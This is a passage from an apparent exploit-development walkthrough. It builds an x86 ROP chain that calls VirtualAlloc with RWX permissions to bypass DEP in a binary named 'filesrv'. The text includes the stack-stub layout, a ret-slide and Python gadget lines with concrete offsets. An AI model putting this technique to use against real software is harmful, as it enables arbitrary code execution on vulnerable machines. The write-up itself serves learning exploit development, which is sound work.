 Not yet... We need to look at how __VirtualAlloc__ [is defined in MSDN](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) so that way we know which parameter we should pass to the function.

After reading the documentation since, we are dealing with x86, where we need to pass the parameter in the stack after the function address and the return address for the function after finishing the exection. We can create a stub in the stack that looks like the following.

```
- VirtualAlloc Address => The  Address of VirtualAlloc in kernel32.dll 
- Return address => Where we return after VirtualAlloc is executed. This should be where our Shellcode will be  on the stack
- lpAddress => This is the area of memory (downgraded to memory page address, 0x100), so this could be the Shellcode address on the stack also.
- dwSize => 0x1 (in pages)
- flAllocationType =>  0x1000 (the type of allocation)
- flProtect => 0x40, Which corresponds to RWX permissions for the region we are "allocating."
```
The above parameters should be set on the stack in the same order so this table can help us during exploitation.

Finally! We have a plan, let's start ropping!

![](https://gifdb.com/images/high/yay-gojo-satoru-jujutsu-kaisen-anime-meme-uv89d004fkc3imhv.gif)

Remember I mentioned the crash was not stable? (at least for me),  depending on the number of bytes or characters I was sending, the address to overwrite changed. That's why at the beginning of the exploit, I placed a _ROP-NOP_ or _ret-slide_ that is just a series of addresses containing a __ret__ instruction. Since we are performing the rop in the stack, the _ret_ instruction acts as a _NOP_, and it will just return to the next instruction. This way, we can solve the issue of the binary crashing at different offsets.

```python
rop = b""
rop += p32(filesrv+0x0007c5f6) * 4 #ret slide
```
One of the first things that are good to do when starting a rop-chain is to save the current stack value, we'll need to do this since we are going to build the chain in the stack, and then it is also needed to direct execution to our Shellcode, so let's begin with that.

The gadget I found to do this is the following.

```
push esp; add dword ptr [eax], eax; pop ecx; ret;
```

If we noticed, this gadget pushes the _ESP_ value and then "pop it" into _ECX_, but before it adds to the address _EAX_ is pointing to the value of it. So if _EAX_ is not pointing to a writeable area, this will fail. To solve this, we can make the value in _EAX_ point into a writeable area like the .rdata. With that, we can add the following to our chain.

```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(filesrv+0xA6030) # address in .data
rop += p32(filesrv+0x000683da) #push esp; add dword ptr [eax], eax; pop ecx; ret;
```
With the above, the stack pointer is now stored in _ECX_. We should probably build our stack in another area to not overwrite the gadgets being sent, so the stub can be constructed above our current payload, I choose 0x50 above, but this value is arbitrary. Let's accomplish this by using the following gadgets.
